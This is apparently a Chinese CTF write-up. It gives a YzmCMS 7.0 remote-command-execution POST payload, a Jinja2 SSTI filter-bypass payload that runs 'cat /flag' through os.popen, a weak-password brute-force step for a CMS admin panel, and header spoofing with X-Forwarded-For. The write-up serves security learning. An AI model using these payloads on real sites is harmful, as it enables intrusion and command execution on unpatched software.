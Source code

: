 那么，什么是cms呢？
>CMS是Content Management System的缩写，意为"内容管理系统"。
>
>CMS系统是内容管理系统(CMS)是一种软件应用程序，可创建、编辑、组织和发布内容,并进行协作式管理，根据角色分配不同的权限和责任。
>
>例如，作者可以发布和保存作品，而编辑可以修改和发布作品；管理员可以执行所有这些操作，也可以授予组织中的其他人更新或修改内容的权限。
### SHCTF [Week3] 小小cms
参考文章：
- [shctf[Week3] 小小cms](https://www.cnblogs.com/c1432/p/18500454)  
- [YzmCMS 7.0任意函数调用RCE 漏洞研究分析](https://blog.csdn.net/shelter1234567/article/details/138524342)  
环境都打不开了，贴个payload吧:  
`/pay/index/pay_callback`目录下，POST传入`out_trade_no[0]=eq&out_trade_no[1]=cat /flag&out_trade_no[2]=system`  
### [GKCTF 2021]easycms   from buujo
参考文章：  
- [蝉知企业门户系统v7.7 - 命令执行漏洞](https://blog.csdn.net/LYJ20010728/article/details/120005727)  

根据刚才那个题，这个拿到题直接搜，搜到这个cms也有漏洞，而且版本也与靶机的相同为`v7.7`  
进入后台`http://274ec28d-6c82-47ad-9d21-42379a85dd72.node5.buuoj.cn:81/admin.php`用户名是`admin`密码为5位弱口令，使用bp爆破,得到密码是`12345`  


未完~~~~~
## ISCTF
两个有收获的题
### ezSSTI
- 初见SSTI
经过尝试得知:  本题过滤了`[`中括号和`_`下划线,参考文章https://blog.csdn.net/weixin_52635170/article/details/129850863  
payload:  
```
{%set pop=dict(po=a,p=b)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(24)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set popen=dict(popen=a)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set ch=dict(ch=a,r=b)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(ch)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set result=(lipsum|attr(globals))|attr(get)(shell)|attr(popen)(command)%}
{%print result%}
```
传入得到flag:  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109163441.png)  
### 25时晓山瑞希生日会
- http头部`Date`字段的格式`Sun, 27 Aug 2024 05:00:00 GMT`,时间为`00:00:00`到`23:59:59`,月份3位缩写
按照题目要求,依次在http请求头加上:    
```http
User-Agent: Project Sekai
X-Forwarded-For: 127.0.0.1
Date: Sun, 27 Aug 2024 05:00:00 GMT
```
最后的时间需要尝试,本来以为时题目提示的`9.15`浪费了很长时间,尝试出的时间是`8.27`,传入得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109165142.png)    



